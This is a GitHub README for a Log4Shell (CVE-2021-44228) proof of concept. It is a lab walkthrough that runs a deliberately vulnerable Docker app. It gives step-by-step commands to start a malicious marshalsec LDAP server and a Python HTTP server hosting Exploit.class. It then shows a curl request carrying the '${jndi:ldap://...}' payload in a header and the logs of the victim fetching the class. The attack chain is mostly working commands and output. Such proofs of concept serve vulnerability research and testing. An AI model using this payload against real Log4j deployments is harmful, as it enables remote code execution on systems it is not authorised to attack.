

# Log4Shell POC (CVE-2021-44228)

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. A **Vulnerable application** (Spring Boot web application vulnerable to CVE-2021-44228) using a vulnerable version of Log4J.
3. The Java **Exploit.class** (and the corresponding
Exploit.java file) that will be loaded by the Vulnerable application.
4. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.
- The **Vulnerable application** is the one provided by [christophetd](https://github.com/christophetd/log4shell-vulnerable-app).

Prerequisites:
- Maven
- Java
- Docker
- Python

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```

*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*


## Running the `Vulnerable application`

Run the docker vulnerable application docker container

```
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

*Note: by default we're executing the vulnerable application on port 8080, feel free to change it.*

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.

```
curl VULNERABLE_APPLICATION_IP:8080 -H 'X-Api-Version: ${jndi:ldap://ldap_server_ip:1389/a}'
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2021-12-24 18:48:14.644  INFO 1 --- [nio-8080-exec-1] HelloWorld: Received a request for API version ${jndi:ldap://10.0.2.15:1389/a}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, we can check that the exploit created a new file on the victim filesystem. In this example we need to check the docker container filesystem.



## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@CrashOverflow](https://github.com/marcourbano)
